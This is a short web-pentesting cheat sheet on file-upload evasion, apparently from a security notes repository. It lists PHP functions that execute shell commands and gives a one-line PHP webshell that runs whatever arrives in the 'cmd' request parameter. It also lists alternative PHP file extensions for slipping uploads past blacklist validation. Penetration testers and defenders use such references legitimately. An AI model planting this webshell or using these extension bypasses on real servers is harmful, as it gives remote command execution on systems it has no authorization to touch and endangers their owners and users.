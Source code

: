 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - webapp-pentesting
  - server-side-attack
  - file-upload
---
```

# File Upload Evasion

## PHP Webshell Functions

Check `disable_functions` in `phpinfo()`.

| PHP Function             | Description                                                 |
| ------------------------ | ----------------------------------------------------------- |
| `system`                 | Executes a command and return its output.                   |
| `shell_exec`             | Executes a command and displays the output immediately.     |
| `passthru`               | Executes a command and displays the raw output.             |
| backtick operator (\`\`) | Executes contents inside the backtick as a shell command.   |
| `popen`                  | Executes a command and returns a pointer.                   |
| `exec`                   | Executes a command and returns the last line of the output. |
| `pcntl_exec`             | Executes a command or a program.                            |
| `proc_open`              | Similar to `popen()`.                                       |

```
<?php echo fread(popen($_REQUEST["cmd"], "r"), 4096); ?>
```

## Bypass File Extension Validation

### Insufficient Blacklisting

#### PHP

```
.pht
.phtm
.phtml
.pgif
.php3
.php4
.php5
.php7
.phps
.inc
.php.inc
.phar
.hphp
```
